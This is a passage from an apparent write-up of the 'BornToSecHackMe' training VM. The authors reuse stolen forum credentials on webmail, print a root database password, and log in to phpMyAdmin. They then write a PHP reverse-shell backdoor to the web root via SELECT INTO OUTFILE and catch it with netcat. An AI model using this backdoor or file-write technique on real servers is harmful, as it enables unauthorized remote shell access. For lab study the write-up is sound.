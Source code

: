 ---------------

### SquirelMail (/webmail/src/index.php)

Now that we have got an email and a password from an user of the forum, we tried to login with those on the webmail page and again it worked like a charm ! 

We then found an interesting mail concerning database access that gave us those credentials :
```
user: root 
password: Fg-'kKXBj87E:aJ$
```
We can then try to connect to phpmyadmin using those.

---------------

### PhpMyAdmin (/phpmyadmin)

On the phpmyadmin page we are now logged in as root !

We now have the possiblity to send SQL requests via the webpage, so we can try to write a file into the webserver's machine, but we need to find a place to write it with our current permissions. Luckily, MyLittleForum exposes a read and write access directory at `/forum/templates_c`, we can then suppose that the forum will be installed in `/var/www/` and try to write the file to `/var/www/forum/templates_c/`.

We used this php script to create a backdoor that will connect back to our listener when executed :
```php
<?php
    $sock=fsockopen("OUR_LISTENER_IP", OUR_LISTENER_PORT);
    $proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>
```

We then injected it using this script on the phpmyadmin sql console:
```sql
SELECT "<?php $sock=fsockopen('OUR_LISTENER_IP',OUR_LISTENER_PORT);$proc=proc_open('/bin/sh -i', array(0=>$sock, 1=>$sock, 2=>$sock),$pipes); ?>"
into outfile "/var/www/forum/templates_c/backdoor.php";
```


We started a listener using netcat, then searched the page [https://BornToSecHackMe/forum/templates_c/backdoor.php](https://BornToSecHackMe/forum/templates_c/backdoor.php) :
```
$> nc -lk OUR_LISTENER_IP OUR_LISTENER_PORT
www-data@BornToSecHackMe:/var/www/forum/templates_c $ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@BornToSecHackMe:/var/www/forum/templates_c $
```


---------------

### Stabilize shell
```bash
$> python -c 'import pty; pty.spawn("/bin/bash")'
```
